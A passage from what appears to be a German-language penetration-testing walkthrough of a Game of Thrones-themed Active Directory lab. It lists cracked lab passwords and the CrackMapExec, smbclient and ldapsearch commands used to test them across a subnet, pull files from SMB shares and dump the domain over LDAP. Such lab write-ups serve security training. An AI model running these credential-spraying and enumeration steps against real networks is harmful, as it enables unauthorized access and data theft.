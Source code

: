 **Erfolgreiche Cracks:**
```
brandon.stark:iseedeadpeople
```

### 3.3 SMB-Exploitation mit kompromittierten Credentials

#### CrackMapExec für Credential Validation
```bash
# Kompromittierte Credentials testen
crackmapexec smb 192.168.20.0/24 -u jon.snow -p iknownothing
crackmapexec smb 192.168.20.0/24 -u brandon.stark -p iseedeadpeople
crackmapexec smb 192.168.20.0/24 -u samwell.tarly -p Heartsbane

# Erfolgreiche Logins identifizieren
crackmapexec smb 192.168.20.0/24 -u jon.snow -p iknownothing --shares
```

#### Manuelle SMB-Share-Exploration
```bash
# NETLOGON-Share (häufig interessant für Skripte)
smbclient //192.168.20.11/NETLOGON -U jon.snow
# Passwort: iknownothing

# SYSVOL-Share (Group Policy-Dateien)
smbclient //192.168.20.11/SYSVOL -U jon.snow

# Custom Shares
smbclient //192.168.20.22/all -U samwell.tarly
# Passwort: Heartsbane
```

**Downloads aus Shares:**
```bash
# In smbclient-Session
smb: \> ls
smb: \> get script.ps1
smb: \> get secret.ps1
smb: \> get arya.txt
smb: \> exit
```

---

## Phase 4: Installation & Persistence

### 4.1 LDAP-Enumeration mit kompromittierten Accounts

#### Vollständige Domain-Enumeration
```bash
# Mit gültigen Credentials komplette LDAP-Dumps
ldapsearch -x -H ldap://192.168.20.11 -D "north\jon.snow" -w iknownothing -b "DC=north,DC=sevenkingdoms,DC=local" "(objectClass=*)" > ldap_dump_north.txt

# Spezifische Objekt-Klassen
ldapsearch -x -H ldap://192.168.20.11 -D "north\jon.snow" -w iknownothing -b "DC=north,DC=sevenkingdoms,DC=local" "(objectClass=user)" sAMAccountName userPrincipalName description

ldapsearch -x -H ldap://192.168.20.11 -D "north\jon.snow" -w iknownothing -b "DC=north,DC=sevenkingdoms,DC=local" "(objectClass=group)" sAMAccountName member

# Service Principal Names mit Authentifizierung
ldapsearch -x -H ldap://192.168.20.11 -D "north\jon.snow" -w iknownothing -b "DC=north,DC=sevenkingdoms,DC=local" "servicePrincipalName=*" servicePrincipalName sAMAccountName
```
